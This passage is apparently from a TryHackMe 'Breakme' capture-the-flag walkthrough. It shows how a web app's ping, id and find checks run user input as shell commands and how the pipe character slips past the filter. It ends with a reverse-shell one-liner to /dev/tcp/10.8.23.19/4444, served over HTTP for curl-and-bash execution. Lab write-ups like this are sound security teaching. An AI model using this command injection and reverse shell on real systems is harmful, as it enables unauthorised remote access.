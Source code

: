A web server appears to listen on this port. We can access this web application from our browse.
![](/assets/img/posts/walthrough/tryhackme/2024-09-27-breakme/2-browse.png)

This web application helps in checking an IP address, the existence of a user, and the existence of a file. Upon entering values to each of these fields, we will notice that our input is been used in executing special commands on the system. This can be seen with the help of pspy64 we ran earlier.
When we enter an IP address to check we will see that the IP address is checked with the ping command.
```bash
2024/09/26 23:35:54 CMD: UID=1002  PID=1430   | /usr/bin/php -S 127.0.0.1:9999 
2024/09/26 23:35:54 CMD: UID=1002  PID=1431   | sh -c ping -c 2 127.0.0.1 >/dev/null 2>&1 & 
```
When we enter a username we will see that the username entered is checked with the id command.
```bash
2024/09/26 23:37:34 CMD: UID=1002  PID=1434   | /usr/bin/php -S 127.0.0.1:9999 
2024/09/26 23:37:34 CMD: UID=1002  PID=1435   | sh -c id john >/dev/null 2>&1 & 
```
Lastly, when we enter a file name we will see that the file name entered is checked with the find command.
```bash
2024/09/26 23:39:06 CMD: UID=1002  PID=1444   | /usr/bin/php -S 127.0.0.1:9999       
2024/09/26 23:39:06 CMD: UID=1002  PID=1445   | sh -c find /opt -name "filename" 2>/dev/null 
```

This tells us that our user input is used to run system commands on the target. We can start thinking of command injection and start investigating the web application with different payloads. We will notice that most of the injection payloads are filtered out but the | is passed without any problem. We can host a reverse shell on our attack host and execute it on the target using curl and bash. We first need to create the reverse shell file and start the Python HTTP server.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ echo '/bin/sh -i >& /dev/tcp/10.8.23.19/4444 0>&1' > shell.sh

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Breakme/Misc File]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
